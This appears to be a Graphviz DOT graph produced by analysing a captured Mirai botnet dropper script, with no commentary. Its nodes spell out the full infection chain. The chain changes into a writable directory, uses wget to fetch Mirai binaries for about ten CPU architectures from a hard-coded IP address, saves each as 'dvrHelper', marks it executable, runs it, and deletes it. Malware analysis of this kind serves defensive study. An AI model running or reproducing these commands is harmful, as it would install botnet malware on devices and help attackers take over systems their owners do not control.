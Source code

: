 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://35.189.174.126/tdyi/mirai.arm -O dvrHelper "];
154 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://35.189.174.126/tdyi/mirai.m68k -O dvrHelper "];
28 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://35.189.174.126/tdyi/mirai.mips -O dvrHelper "];
46 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://35.189.174.126/tdyi/mirai.mpsl -O dvrHelper "];
64 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://35.189.174.126/tdyi/mirai.x86 -O dvrHelper "];
82 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://35.189.174.126/tdyi/mirai.spc -O dvrHelper "];
100 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://35.189.174.126/tdyi/mirai.arm7 -O dvrHelper "];
118 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://35.189.174.126/tdyi/mirai.arm5n -O dvrHelper "];
136 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://35.189.174.126/tdyi/mirai.arm -O dvrHelper "];
154 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://35.189.174.126/tdyi/mirai.ppc -O dvrHelper "];
172 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
195 [label="rm -rf dvrHelper\r "];
195 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/run "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://35.189.174.126/tdyi/mirai.sh4 -O dvrHelper "];
190 -> 192 [label=";,"];
192 [label="chmod +x dvrHelper "];
192 -> 194 [label=";,"];
194 [label="./dvrHelper "];
194 -> 195 [label=";,"];
}
